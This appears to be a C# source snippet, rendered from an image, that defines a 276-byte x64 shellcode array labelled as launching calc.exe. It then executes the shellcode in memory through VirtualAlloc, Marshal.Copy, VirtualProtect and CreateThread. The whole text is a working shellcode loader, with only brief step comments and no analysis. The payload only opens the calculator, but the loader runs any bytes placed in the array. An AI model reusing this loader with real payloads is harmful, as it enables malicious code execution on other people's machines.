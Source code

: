 ```csharp
        static void Main(string[] args)
        {
            // Calc.exe shellcode
            byte[] shellcode = new byte[276] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,
                0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
                0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
                0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,
                0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
                0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
                0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
                0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,
                0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
                0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,
                0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
            };

            // 1. Allocate shellcode
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, (0x1000 | 0x2000), PAGE_READWRITE);
            
            // 2. Copy shellcode to allocated space
            Marshal.Copy(shellcode , 0, (IntPtr)funcAddr, shellcode.Length);

            // 3. Change protection to executable
            uint oldprotection = 0;
            VirtualProtect((IntPtr)funcAddr, (uint)shellcode.Length, PAGE_EXECUTE_READ, out oldprotection);

            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // 4. Execute
            hThread = CreateThread(0, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }
    }
}//end namespace
```
